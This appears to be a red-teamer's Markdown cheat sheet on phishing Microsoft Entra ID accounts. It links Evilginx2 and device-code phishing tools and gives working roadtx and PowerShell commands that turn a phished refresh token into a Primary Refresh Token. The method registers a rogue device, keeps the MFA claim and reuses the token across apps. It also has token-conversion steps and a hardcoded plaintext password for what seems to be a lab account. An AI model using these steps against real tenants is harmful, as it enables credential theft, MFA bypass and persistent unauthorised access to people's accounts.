 # Evilginx2
https://github.com/aalex954/evilginx2-TTPs.git
https://github.com/fin3ss3g0d/evilgophish

# Device Code

Original Articles
https://0xboku.com/2021/07/12/ArtOfDeviceCodePhish.html
https://aadinternals.com/post/phishing/

Incoming Changes to the FLow and PRT / Windowss Hello
https://dirkjanm.io/phishing-for-microsoft-entra-primary-refresh-tokens/


# refresh token to PRT from Authetnication Broker / MFA condition with interactiveauth
```powershell
$MsAuthBroker = "29d9ed98-a469-4536-ade2-f981bc1d605e"
roadtx interactiveauth -u $user -c $MsAuthBroker -r https://enrollment.manage.microsoft.com/ -ru https://login.microsoft.com/applebroker/msauth

# If No MFA req
$MsAuthBroker = "29d9ed98-a469-4536-ade2-f981bc1d605e"
roadtx gettokens -u $user -c $MsAuthBroker -r https://enrollment.manage.microsoft.com/

# Request Token for Device Registration Service using cached auth
roadtx gettokens --refresh-token file -c $MsAuthBroker -r drs

# Join the Device
roadtx device -a join -n InnocentDevice

# Now that we have a device identity we use the same refresh-token to obtain true PRT
$refresh = ""
roadtx prt --refresh-token $refresh -c InnocentDevice.pem -k InnocentDevice.key 

# Resulting tokens contain the same claims as used during registration, MFA transfers to PRT

# PRT can be used in any authetnication flow to other apps

# PRT Can be used for Browser flows

# Script for doing this outside of ROADTools
https://github.com/kiwids0220/deviceCode2WinHello/tree/main
```

# TokenTormentor - Convert Token Tactics to ROADTools

```powershell
git clone https://github.com/CompassSecurity/TokenTormentor
cd TokenTormentor
pip install -r requirements

# Get-AzureTokens -Client MSGraph
$response | ConvertTo-Json -Depth 5 | Out-File -FilePath token.json
python .\TokenTormentor.py .\token.json
```

New Tools to pull apart
https://blog.compass-security.com/2023/10/device-code-phishing-compass-tooling/
https://github.com/secureworks/squarephish?tab=readme-ov-file
https://github.com/CompassSecurity/TokenPhisher

Adding MFA
https://blog.compass-security.com/2024/01/device-code-phishing-add-your-own-sign-in-methods-on-entra-id/

A tool that combines Device Code and QR Code
https://github.com/secureworks/squarephish?tab=readme-ov-file

Device Code Phishing w/ Verified Apps
https://github.com/secureworks/PhishInSuits

# Check if users can consent

```powershell
Import-Module C:\AzAD\Tools\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "V3ryH4rdt0Cr4ckN0OneC@nGu355ForT3stUs3r" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("test@defcorphq.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```